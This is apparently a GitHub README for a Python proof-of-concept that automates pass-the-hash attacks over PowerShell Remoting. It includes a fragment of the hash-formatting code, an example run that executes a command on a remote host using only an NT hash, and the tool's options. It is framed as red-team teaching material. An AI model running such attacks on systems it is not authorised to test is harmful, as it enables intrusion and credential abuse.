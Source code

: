 # PowerShell Pass-the-Hash


## Disclaimer

The contents of this repository are for educational purposes. Do
not use this information to access any system without the express written
permission of the system's owner, such as during a red team activity. The author
is not liable for any damage, direct or indirect, caused by the information
contained in this repository.

## Description

This repository contains a simple, cross-platform, proof-of-concept utility for
the automation of [pass-the-hash](https://en.hackndo.com/pass-the-hash/) attacks
against servers with PowerShell Remoting enabled.


## Why did you write this utility?

I couldn't find any example code written in Python that executes a
pass-the-hash attack over PowerShell Remoting. The best Python library I've
been able to find for using PowerShell Remoting is
[pypsrp](https://pypi.org/project/pypsrp/). pypsrp allows you to interact with
PowerShell Remoting programmatically from both Windows and Linux. It's not
obvious how to use pypsrp to execute a pass-the-hash attack. This utility
serves as an example that red teamers can use to write their own Python code to
automate pass-the-hash attacks.

Simply put, this is the magic that makes everything work:

```python
def connect(host, username, lm_hash, nt_hash, use_ssl=True, timeout=3):
    # The pypsrp library requires LM or NT hashes to be formatted like "LM_HASH:NT_HASH"
    #
    # Example:
    # If your LM hash is 1ec78eb5f6edd379351858c437fc3e4e and your NT hash is
    # 79a760336ad8c808fee32aa96985a305, then you would pass
    # "1ec78eb5f6edd379351858c437fc3e4e:79a760336ad8c808fee32aa96985a305" as the
    # `password` parameter to pypsrp.
    #
    # pypsrp will parse this string and automatically use the appropriate hash
    # for NTLM authentication.
    #
    # If you only have one of the two hashes, this script will automatically
    # populate the other hash with zeros.
    formatted_ntlm_hashes = f"{lm_hash}:{nt_hash}"
```
[See code in context](https://github.com/mssalvatore/powershell-pth/blob/e8bd82e3120b9ecec9f19a9d14451831640dc6b0/powershell-pth.py#L39-L53)

## How should I use this utility?

This utility is primarily intended to be an example you can use to write your
own tools. However, it does provide basic functionality. If you have a target
host, username, and a hash, you can use this utility to try to gain access to
the target (see [disclaimer](#disclaimer)).

## How do I run powershell-pth.py

Install the necessary Python dependencies:
```
$ pip install -r requirements.txt
```

Invoke the script with `python`. Example:

```
$ python powershell-pth.py --cmd dir --host 10.0.0.30 --username test --nt_hash 10f017bbc08a8d415d60299c06f4869f
Authentication succeeded -- Username: test, LM Hash: 00000000000000000000000000000000, NT Hash: 10f017bbc08a8d415d60299c06f4869f
Running command: dir
STDOUT:
 Volume in drive C has no label.
 Volume Serial Number is 5719-64DC

 Directory of C:\Users\test

09/24/2021  08:44 AM    <DIR>          .
09/24/2021  08:44 AM    <DIR>          ..
08/20/2021  07:37 AM    <DIR>          Contacts
08/20/2021  07:37 AM    <DIR>          Desktop
09/24/2021  08:44 AM    <DIR>          Documents
09/01/2021  08:28 AM    <DIR>          Downloads
08/20/2021  07:37 AM    <DIR>          Favorites
08/20/2021  07:37 AM    <DIR>          Links
08/20/2021  07:37 AM    <DIR>          Music
08/20/2021  07:37 AM    <DIR>          Pictures
08/20/2021  07:37 AM    <DIR>          Saved Games
08/20/2021  07:37 AM    <DIR>          Searches
08/20/2021  07:37 AM    <DIR>          Videos
               0 File(s)              0 bytes
              13 Dir(s)  31,387,150,750 bytes free



STDERR:



RETURN CODE: 0
```

`powershell-pth.py` can be run with an NT hash (`--nt_hash`), an LM hash
(`--lm_hash`), or both.

Run `python powershell-pth.py --help` for more options.
```
$  python powershell-pth.py --help
Usage: powershell-pth.py [OPTIONS]

Options:
  --cmd TEXT         [required]
  --host TEXT        [required]
  --username TEXT    [required]
  --lm_hash TEXT
  --nt_hash TEXT
  --use_ssl BOOLEAN
  --timeout INTEGER
  --help             Show this message and exit.
```
